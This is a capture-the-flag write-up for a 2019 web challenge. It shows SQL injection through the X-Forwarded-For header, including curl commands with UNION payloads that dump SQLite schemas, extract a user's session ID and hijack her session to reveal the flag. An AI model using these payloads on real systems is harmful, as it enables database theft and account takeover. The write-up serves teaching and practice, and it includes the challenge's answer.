 # Quals Saudi and Oman National Cyber Security CTF 2019 – Maria

* **Category:** Web Security
* **Points:** 200

## Challenge

> Maria is the only person who can view the flag
>
> [http://35.222.174.178/maria/](http://35.222.174.178/maria/)

## Solution

*curl* will return the following web page.

```
$ curl -i http://35.222.174.178/maria/
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 09:16:21 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=hukf0bvotd1htofsbr7r6qgjd0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0
Transfer-Encoding: chunked

SELECT * FROM nxf8_sessions where ip_address = 'xxx.xxx.xxx.xxx'<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!-- The above 3 meta tags *must* come first in the head; any other head content must come *after* these tags -->
    <title>Welcome to our website</title>

    <!-- Bootstrap -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <!-- HTML5 shim and Respond.js for IE8 support of HTML5 elements and media queries -->
    <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.3/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
  </head>
  <body>
    <nav class="navbar navbar-inverse navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="#">Maria Website</a>
        </div>
        <div id="navbar" class="navbar-collapse collapse">

        </div><!--/.navbar-collapse -->
      </div>
    </nav>
    <div class="alert alert-info" style="margin: 50px 0 0 0;">
        Privacy Note: Your IP is stored in our database for a security tracking reasons.
    </div>

    <div class="jumbotron">
      <div class="container">
        <h1>Welcome to our website!</h1>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
              </div>
    </div>

  </body>
</html>
```

At the beginning of the HTML page you can find a sql query with your IP address in it.

```
SELECT * FROM nxf8_sessions where ip_address = 'xxx.xxx.xxx.xxx'
```

Using the `X-FORWARDED-FOR` HTTP header that parameter can be manipulated, furthermore it is vulnerable to SQL injection.

```
$ curl -X GET --header "X-FORWARDED-FOR: '" -i http://35.222.174.178/maria/
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 14:20:34 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=11keda1pk9cr4un12esv95iji3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Transfer-Encoding: chunked

SELECT * FROM nxf8_sessions where ip_address = '''Error : HY000 1 unrecognized token: "'''"
```

The database seems to be a *SQLite*.

After some analysis you can discover that the result of the executed query is used to populate the `PHPSESSID` cookie.

Crafting a `UNION` SQL operation with `null` allows you to discover the user table and the number of columns to union.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, null from nxf8_users where '1'='1" -i http://35.222.174.178/maria/
```

Furthermore, you can discover which is the position of the column used to return data: it's the last one.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, password from nxf8_users where '1'='1" -i http://35.222.174.178/maria/
```

Now you can extract information and see results into `PHPSESSID` cookie.

You can discover that there are only two tables: `nxf8_users` and `nxf8_sessions`.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, count(name) from sqlite_master where type='table" -i http://35.222.174.178/maria/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 14:56:50 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=mqq6c43oi4u7tfbgfdh6htq4f3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=2; expires=Fri, 08-Feb-2019 15:56:50 GMT; Max-Age=3600
```

Flag could be into Maria's record, so you can enumerate colums of user table.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, sql from sqlite_master where tbl_name = 'nxf8_users' and type='table" -i http://35.222.174.178/maria/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 14:59:52 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=2k36knnec6idjsllv8fu98mdm7; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=CREATE+TABLE+%22nxf8_users%22+%28%0A++++++++++++%22id%22+int%2810%29+NOT+NULL%2C%0A++++++++++++%22name%22+varchar%28255%29++NOT+NULL%2C%0A++++++++++++%22email%22+varchar%28255%29++NOT+NULL%2C%0A++++++++++++%22password%22+varchar%28255%29++NOT+NULL%2C%0A++++++++++++%22role%22+varchar%28100%29++DEFAULT+NULL%0A++++++++%29; expires=Fri, 08-Feb-2019 15:59:52 GMT; Max-Age=3600
```

Unfortunately passwords are random numbers, so they are not related to the flag. Nothing interesting found into the user table, even into other user records. Probably the flag is into the sessions table. 

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, sql from sqlite_master where tbl_name = 'nxf8_sessions' and type='table" -i http://35.222.174.178/maria/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 15:03:37 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=r5sqesbreu84v0i6nh8pc6pd54; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=CREATE+TABLE+%22nxf8_sessions%22+%28%0A++++++++++++%22id%22+int%2810%29+NOT+NULL%2C%0A++++++++++++%22user_id%22+varchar%28255%29++NOT+NULL%2C%0A++++++++++++%22ip_address%22+varchar%28255%29+NOT+NULL%2C%0A++++++++++++%22session_id%22+varchar%28255%29++NOT+NULL%0A++++++++%29; expires=Fri, 08-Feb-2019 16:03:37 GMT; Max-Age=3600
Transfer-Encoding: chunked
```

Analyzing the composition of the sessions table you can discover that you need a value for the `user_id` column which is the foreign key to the user table.

The `id` of Maria can be easily retrieved from user table: it is `5`.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, id from nxf8_users where name = 'Maria" -i http://35.222.174.178/maria/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 15:02:30 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=jh9oqonbml52kcql01se744lq2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=5; expires=Fri, 08-Feb-2019 16:02:30 GMT; Max-Age=3600
Transfer-Encoding: chunked
```

At this point you can find Maria's session ID.

```
$ curl -X GET --header "X-FORWARDED-FOR: pwnd' union select null, null, null, session_id from nxf8_sessions where user_id = 5 and '1'='1" -i http://35.222.174.178/maria/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Feb 2019 15:06:38 GMT
Content-Type: text/html; charset=UTF-8
Set-Cookie: PHPSESSID=len8nngjbl4ljrn7c7n7fp9fc4; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=fd2030b53fc9a4f01e6dbe551db7ded390461968; expires=Fri, 08-Feb-2019 16:06:38 GMT; Max-Age=3600
Transfer-Encoding: chunked
```

This is not the flag, but *only Maria can see the flag*, so you can impersonate Maria changing your `PHPSESSID` cookie into your browser.

This will reveal the flag refreshing the page.

```
aj9dhAdf4
```